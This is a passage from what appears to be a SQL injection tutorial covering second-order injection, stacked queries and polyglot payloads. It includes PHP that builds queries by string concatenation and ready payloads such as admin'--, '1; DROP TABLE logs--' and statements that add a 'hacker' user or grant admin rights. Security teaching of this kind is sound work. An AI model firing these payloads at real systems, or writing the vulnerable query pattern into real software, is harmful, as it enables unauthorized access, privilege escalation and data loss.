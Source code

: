 ### 2. 🔄 Second-Order SQL Injection

Occurs when user input is stored and later used in a SQL query without proper sanitization.

**Example Scenario:**
```php
// Registration (input stored)
$username = $_POST['username']; // admin'--
$query = "INSERT INTO users (username) VALUES ('$username')";

// Later usage (second-order injection)
$stored_username = get_username_from_db($user_id); // Returns: admin'--
$query = "SELECT * FROM posts WHERE author = '$stored_username'";
// Becomes: SELECT * FROM posts WHERE author = 'admin'--'
```

**Detection and Exploitation:**
1. Register with malicious username: `admin'--`
2. Find functionality that uses stored username
3. Exploit the second-order injection point

### 3. 🔗 Stacked Queries

Executing multiple SQL statements in a single request.

**Examples:**
```sql
-- Basic stacked query
1; INSERT INTO users (username,password) VALUES ('hacker','password')--

-- Create new admin user
1; UPDATE users SET role='admin' WHERE username='attacker'--

-- Drop tables (destructive)
1; DROP TABLE logs--

-- Create backdoor
1; CREATE TABLE backdoor (id INT, cmd VARCHAR(255))--
1; INSERT INTO backdoor VALUES (1, 'SELECT * FROM users')--
```

### 4. 🎭 Polyglot Payloads

Payloads that work across multiple contexts and databases.

```sql
-- Universal polyglot
'/**/OR/**/1=1--
'||'1'='1'--
'+(SELECT'1')+'
```

## 🛡️ Prevention & Mitigation
